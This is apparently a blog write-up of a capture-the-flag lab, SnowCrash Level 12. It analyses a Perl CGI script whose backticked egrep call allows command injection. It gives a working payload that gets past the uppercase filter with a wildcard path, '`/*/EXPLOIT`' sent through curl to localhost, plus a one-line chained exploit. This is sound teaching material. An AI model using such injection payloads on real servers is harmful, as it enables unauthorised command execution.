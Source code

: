 ```yaml
---
title: SnowCrash Level12 - Walkthrough 👽 
tags:
  - ctf
  - 42project
  - snowcrash
  - command-injection
  - perl
  - cgi
categories:
  - ctfs
  - 42project
date: 2024-05-19 15:06:08
---
```


## Introduction

In Level 12 of the SnowCrash project by 42 school, you are presented with a Perl script running a CGI Web Server on port 4646. Below is the script:

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}
```

### Vulnerability Analysis

The script contains a critical vulnerability in the following line:

```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

This line executes a system command using backticks. The variable $xx is taken from user input, which makes the script susceptible to command injection attacks.

### Input Sanitization

Before the command is executed, all lowercase letters in $xx are converted to uppercase:

```perl
$xx =~ tr/a-z/A-Z/;
```

Additionally, if a space is present in the input, everything after the space will be discarded:

```perl
$xx =~ s/\s.*//;
```

### Exploitation

Given the vulnerability, an attacker can inject arbitrary commands by manipulating the input. Here is a step-by-step explanation of how to exploit this vulnerability:

1. Create a Malicious Script: Write a script that will be executed on the server.

```sh
echo "getflag > /tmp/lvl12flag" > /tmp/EXPLOIT
chmod +x /tmp/EXPLOIT
```

2. Trigger the Vulnerability: Use curl to send a crafted request to the vulnerable server.

```sh
curl 'localhost:4646?x=`/*/EXPLOIT`'
```

3. Retrieve the Flag: The command in the malicious script will be executed, writing the flag to /tmp/lvl12flag. Read the flag using:

```sh
cat /tmp/lvl12flag
```

### Complete Exploit Command

The entire exploitation process can be executed with a single command:

```sh
echo "getflag > /tmp/lvl12flag" > /tmp/EXPLOIT; chmod +x /tmp/EXPLOIT && curl 'localhost:4646?x=`/*/EXPLOIT`'; cat /tmp/lvl12flag
```

By running this command, you can successfully exploit the vulnerability and retrieve the flag.

## Conclusion

This level demonstrates the importance of proper input sanitization and the risks associated with executing user input as system commands. Always ensure to validate and sanitize inputs to prevent command injection vulnerabilities.
